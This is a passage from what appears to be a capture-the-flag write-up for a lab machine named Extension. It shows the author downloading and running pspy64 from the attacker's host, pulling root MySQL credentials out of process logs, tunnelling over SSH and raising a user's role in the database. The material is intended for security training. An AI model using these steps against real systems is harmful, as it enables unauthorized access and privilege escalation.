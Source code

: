 Looking in the nginx config we can identify port 3000, 8000 and 8001:
```bash
jean@extension:/etc/nginx$ cat sites-available/default
[... snip ...]
server_name _;
	proxy_pass http://127.0.0.1:8001;
[... snip ...]
server_name mail.snippet.htb;
	proxy_pass http://127.0.0.1:8000;
[... snip ...]
server_name dev.snippet.htb;
	proxy_pass http://127.0.0.1:3000;
```


Copy over `pspy64` and see if there's anything executing behind the scenes:
```bash
charlie@extension:/dev/shm$ wget http://10.10.14.10/pspy64
charlie@extension:/dev/shm$ chmod +x pspy64
charlie@extension:/dev/shm$ ./pspy64
[... snip ...]
2022/09/11 13:15:01 CMD: UID=0    PID=8058   | sh -c mysql -u root -ptoor --database webapp --execute "delete from snippets where id > 2;"
2022/09/11 13:15:01 CMD: UID=0    PID=8065   | docker exec 2ee49381d443 sh -c mysql -u root -ptoor --database webapp --execute "UPDATE users set password='30ae5f5b247b30c0eaaa612463ba7408435d4db74eb164e77d84f1a227fa5f82' where email='charlie@snippet.htb';"
2022/09/11 13:15:01 CMD: UID=0    PID=8115   | sh -c mysql -u root -ptoor --database webapp --execute "UPDATE users set password='7f13a99efb779ebbe57cbca71dfac6334dd7e3e6345a353d74912e9843f918b6' where email='jean@snippet.htb';" 
```

We find credentials and database name for mysql - `root:toor`. Setup SSH tunnels and change one of the previous found accounts `user_type` from _Member_ to **Manager**: 
```bash
➜  .ssh ssh -N -f -L 3306:localhost:3306 charlie@extension.htb -i id_rsa
➜  extension mysql -h 127.0.0.1 -D webapp -u root -p

MySQL [webapp]> select * from users where email = 'juliana@snippet.htb';
+-----+---------------+---------------------+---------------------+------------------------------------------------------------------+--------------------------------------------------------------+---------------------+---------------------+-----------+
| id  | name          | email               | email_verified_at   | password                                                         | remember_token                                               | created_at          | updated_at          | user_type |
+-----+---------------+---------------------+---------------------+------------------------------------------------------------------+--------------------------------------------------------------+---------------------+---------------------+-----------+
| 701 | Juliana Thiel | juliana@snippet.htb | 2022-01-02 20:15:32 | ef92b778bafe771e89245b89ecbc08a44a4e166c06659911881f383d4473e94f | ogRS7mYef6bK1KDFu0Svdm1C3AwnpBFhiWKRaMV92ubm4nmMmAIcoJRVhcUF | 2022-01-02 20:15:37 | 2022-06-20 11:46:35 | Member    |
+-----+---------------+---------------------+---------------------+------------------------------------------------------------------+--------------------------------------------------------------+---------------------+---------------------+-----------+

MySQL [webapp]> update users set user_type = 'Manager' where users.id = 701;
Query OK, 1 row affected (0.034 sec)
Rows matched: 1  Changed: 1  Warnings: 0

MySQL [webapp]> select * from users where email = 'juliana@snippet.htb';
+-----+---------------+---------------------+---------------------+------------------------------------------------------------------+--------------------------------------------------------------+---------------------+---------------------+-----------+
| id  | name          | email               | email_verified_at   | password                                                         | remember_token                                               | created_at          | updated_at          | user_type |
```